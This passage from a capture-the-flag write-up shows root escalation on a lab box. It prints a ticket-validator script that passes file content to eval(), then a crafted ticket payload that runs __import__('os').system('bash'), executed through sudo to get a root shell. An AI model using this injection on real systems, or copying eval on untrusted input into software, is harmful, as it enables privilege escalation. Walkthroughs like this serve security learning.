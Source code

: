 ```python
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```
As we can see we the script define an `evaluate()` function which uses at some point an `eval()` function.  
To reach this portion of code, we neet do provide a file as an input, and the file needs to match certaion carachters otherwise the program quits.  
Now, we can download the script to our local box and find the proper formatting for the input till we manage to reach the `eval()` function.  
After few tries, we can build the following payload:  
```
# Skytrain Inc
## Ticket to sst
__Ticket Code:__
**11+__import__("os").system("bash") 
```
Write it to an `inject.md` file and the execute the program giving this file as an input:  
```bash
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
inject.md
Destination: sst
root@bountyhunter:/home/development# 
```
and we got root into this box.